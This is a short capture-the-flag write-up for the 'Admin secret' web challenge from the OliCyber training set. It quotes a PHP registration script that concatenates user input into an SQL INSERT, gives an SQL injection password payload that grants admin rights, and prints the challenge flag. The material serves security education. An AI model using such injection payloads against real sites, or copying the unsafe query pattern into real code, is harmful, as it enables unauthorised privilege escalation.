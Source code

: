 ## Challenge Name: Admin secret
**Category:** Web

**Challenge Description:**

I found this site where you can register, but only the administrator receives the most interesting information. Can you sneak in?

Website: http://adminsecret.challs.olicyber.it

### Approach

This challenge gives you the source code of the ```registration.php``` and of the ```login.php```.
While in the second one i found no vulnerabilities, inside the ```registration.php``` i found this piece of code that can be exploited: 

```php
<?php
        if ($_SERVER["REQUEST_METHOD"] == "POST") {
            $db = new mysqli($db_host, $db_user, $db_password, $db_schema);

            $username = $_POST['username'];
            $password = $_POST['password'];

            $sql = "INSERT INTO users(username,password,admin) VALUES ('" . $username . "','" . $password . "',false);";

            if ($db->query($sql) === TRUE) {
                echo '<div class="alert alert-success" role="alert">Ti sei registrato! Puoi ora fare login</div>';
            } else {
                echo '<div class="alert alert-danger" role="alert">Error: ' . $sql . "<br>" . $db->error . "</div>";
            }
            $db->close();
        }
        ?>
```
By looking at this code snippet i found an SQL injection vulnerability inside this challenge, so to solve this challenge we have to register a new user with admin privileges with: 

```
username: XXX
password: XXX', True) --
```
Login with this user gives us the flag

**Flag**

```
flag{c0me_se1_div3ntato_admin}
```
### Reflections
Easy sql injection challenge 
  

---
<a href="/olicyber-training/main.md" class="btn">Back to home</a>
